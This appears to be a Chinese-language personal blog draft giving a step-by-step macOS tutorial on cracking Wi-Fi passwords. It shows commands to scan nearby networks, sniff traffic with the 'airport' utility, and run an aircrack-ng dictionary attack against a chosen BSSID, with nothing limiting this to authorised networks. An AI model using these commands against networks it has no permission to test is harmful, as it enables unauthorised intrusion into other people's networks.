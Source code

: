 ```yaml
---
title: "破解Wi-Fi密码"
date: 2022-08-31T15:42:45+08:00
slug: "a2a5cc7c"
hidden: false
draft: true
tags: ["技术","WIFI"]
keywords: ["技术","WIFI"]
description: ""
Summary: ""
Navbar: false
comments: true
---
```


暴力破解WI-FI密码，还未成功过。

<!--more-->

## MAC OS 篇

### 1. 查看网卡名称

在终端中执行 `ifconfig` 即可查看，通常是 en0

- #### 使用ariport

  ```bash
  sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
  ```

### 2. 使用 airport 监听无线网络

由于某些原因，airmon-ng 无法在 MAC OS 使用，所以只能使用 airport 进行扫描和抓包了，但是并不好用，所以还是使用 linux 吧尽量...

开始扫描，终端中执行：

```bash
/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 scan
或者
airport -s
```

扫描结果会是这样的：

| SSID     | BSSID             | RSSI | CHANNEL | HT   | CC   | SECURITY (auth/unicast/group) |
| -------- | ----------------- | ---- | ------- | ---- | ---- | ----------------------------- |
| 小米手机 | 22:47:da:62:2a:f0 | -29  | 6       | Y    | --   | WPA2(PSK/AES/AES)             |

- SSID 表示 Wi-Fi 名称
- BSSID 表示 Wi-Fi 设备的硬件地址
- RSSI 表示信号强度，值是负数，绝对值越小信号越强
- CHANNEL 表示 Wi-Fi 信道
- HT 表示吞吐量模式，一般都为 Y
- CC 表示国家，中国为 CN
- SECURITY 表示加密方式

### 3. 使用 airport 进行抓包

```
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff
```

抓一段儿事件之后，使用 Ctrl + C 停止抓包，完成后会生成一个 cap 包，看到如下提示：

```
Session saved to /tmp/airportSniff0RjCAO.cap.
```

### 4. 安装 [aircrack-ng](https://aircrack-ng.org/)

- 使用 [Homebrew](https://brew.sh/) 安装：

```bash
brew install aircrack-ng
```

- #### 分析流量

  ```bash
  aircrack-ng airportSniffkZzYWr.cap
  ```

  ![image-20220831154637214](https://file.sswin.site/img/202208311546671.png)

- #### 使用 aircrack-ng 执行破解

  ```bash		
  aircrack-ng -w common.txt /tmp/airportSniff0RjCAO.cap
  或者
  aircrack-ng -w dict.txt -b c0:61:18:11:d9:dc /tmp/airportSniffLbhZSp.cap
  ```

  ```bash
  参数说明：
  -w 指定字典文件
  -M 指定最大IVs，根据提示可以适当调大次参数
  -f 暴力破解因子，默认2，也可适当调大
  -a 加密类型，1:WEP, 2:WPA-PSK
  -b BSSID，刚刚纪录目标Wi-Fi的Mac地址
  ```

[字典文件](wpa-dictionary)
